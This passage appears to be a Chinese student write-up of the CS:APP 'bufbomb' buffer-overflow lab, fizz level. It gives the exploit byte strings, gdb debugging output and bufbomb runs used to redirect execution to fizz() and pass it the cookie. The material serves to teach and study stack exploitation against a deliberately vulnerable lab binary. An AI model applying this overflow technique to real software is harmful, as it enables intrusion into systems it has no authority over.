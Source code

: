 由上图栈帧结构可知，返回地址+4 即为参数 1...参数 n，所以想要修改函数参数部分，只需要将 cookie 内容放在返回地址+4 的位置即可。
```
00 01 00 00
00 02 00 00
00 03 00 00
00 04 00 00
c0 8d 04 08
21 00 11 46
```
```
~/myclass/csapp$ ./bufbomb -t SA19225374+SA19225417+SA19225525 < exploit_fizz.txt
Team: SA19225374+SA19225417+SA19225525
Cookie: 0x46110021
Type string:Misfire: You called fizz(0x8049a00)
```
这里发现虽然调用了 fizz，但是产生了错误，参数没有正确地传进来。加断点调试看出了什么问题。
```
(gdb) run -t SA19225374+SA19225417+SA19225525 < exploit_fizz.txt
Starting program: /home/myclass/csapp/bufbomb -t SA19225374+SA19225417+SA19225525 < exploit_fizz.txt
Team: SA19225374+SA19225417+SA19225525
Cookie: 0x46110021

Breakpoint 2, 0x08048fe6 in getbuf ()
(gdb) x/x $ebp                                     ###### 此处
0xffffb4e8:     0xffffb508
(gdb) s
Single stepping until exit from function getbuf,
which has no line number information.
0x08048dc0 in fizz ()
(gdb) x/x $ebp
0x400:  Cannot access memory at address 0x400
(gdb) i r
eax            0x1                 1
ecx            0x17                23
edx            0x0                 0
ebx            0x0                 0
esp            0xffffb4f0          0xffffb4f0      ###### 此处
ebp            0x400               0x400
```
注意 fizz 反汇编代码以及上边显示的所有 `###### 此处` 标记，getbuf() 函数中 %ebp 为 0xffffb4e8，fizz() 函数中 %esp 为 0xffffb4f0（即 0xffffb4e8+8）。所以 0xffffb4e8+8 位置为新的 %esp，参数位置相应地往后挪 4 个字节。修改 fizz.txt 再次运行。
```
00 01 00 00
00 02 00 00
00 03 00 00
00 04 00 00
c0 8d 04 08
00 00 00 00
21 00 11 46
```
结果如下，检验有效。
```
~/myclass/csapp$ vim fizz.txt
~/myclass/csapp$ ./sendstring < fizz.txt > exploit_fizz.txt
~/myclass/csapp$ ./bufbomb -t SA19225374+SA19225417+SA19225525 < exploit_fizz.txt
Team: SA19225374+SA19225417+SA19225525
Cookie: 0x46110021
Type string:Fizz!: You called fizz(0x46110021)
NICE JOB!
Sent validation information to grading server
```

